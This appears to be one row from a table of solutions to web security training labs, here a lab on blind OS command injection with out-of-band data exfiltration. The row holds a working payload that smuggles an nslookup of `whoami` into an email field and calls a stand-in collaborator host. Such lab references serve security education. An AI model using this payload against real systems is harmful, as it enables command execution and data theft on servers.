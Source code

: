 |84    |Blind OS command injection with out-of-band data exfiltration                                                            |email=&#124;&#124;nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN&#124;&#124;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |Adding a command to the output in Burp Collaborator                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |OS Command Injection, Practitioner          |
